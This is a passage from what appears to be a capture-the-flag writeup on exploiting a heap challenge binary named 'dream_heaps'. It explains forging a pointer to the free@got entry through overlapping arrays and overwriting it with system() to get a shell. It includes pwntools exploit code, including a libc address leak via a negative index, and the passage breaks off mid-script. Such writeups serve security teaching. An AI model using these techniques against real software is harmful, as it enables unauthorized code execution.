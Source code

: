 Next, we need to find a way to corrupt the HEAP_PTRS and SIZES so that we can use `edit_dream()` to write arbitrary memory, in this case we would like to overwrite a got entry.  
If we look at `delete_dream` we can notice that if we had a chunk with content `/bin/sh`, and we overwrote `free()` with `system()`, then we could just "delete" that chunk to get a shell.  
Therefore, our objective is to overwrite the got entry of `free()` with `system()`.  

Since HEAP_PTRS is at `0x006020a0` and SIZES is at `0x006020e0`, we can create chunks, until HEAP_PTRS overlaps into SIZES, and since we control SIZES, we can create an arbitrary pointer.  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/b9ec6334-2ee9-470e-b4ea-c84d814348b5)  
Notice that HEAP_PTRS[17] is the same as SIZES[18] and SIZES[19], so we can use that to create a pointer to free@got, and then overwrite it with system.  
```python
def new(content, length):
        r.sendlineafter(b"> ", b"1")
        r.sendlineafter(b"?\n", str(length).encode())
        r.sendlineafter(b"?\n", content)

    new(b"/bin/sh",0x10) # /bin/sh string
    # pad until location of interest
    for i in range(17):
        new(b"A",16)

    new(b'',0x602018) # free@got
    new(b'',0) # write 0 on other half of pointer

    r.sendline(b'3') #edit dream
    r.sendline(b'17') #edit our pointer to free@got
    r.send(p64(libc.sym["__libc_system"]))
```

Then just free the `/bin/sh` chunk to get a shell.  

Putting it all together we have:
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("dream_heaps_patched")
libc = ELF("libc-2.27.so")

context.binary = exe


def conn():
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)

    return r


def main():
    r = conn()

    r.sendline(b'2') #Read dream
    r.recvuntil(b'Which dream would you like to read?\n')
    r.sendline(b'-263021') # Read puts@got
    libc_leak = r.recv(6)
    libc_leak = int.from_bytes(libc_leak,'little')
    print(hex(libc_leak))

    libc.address = libc_leak - libc.sym['puts']

```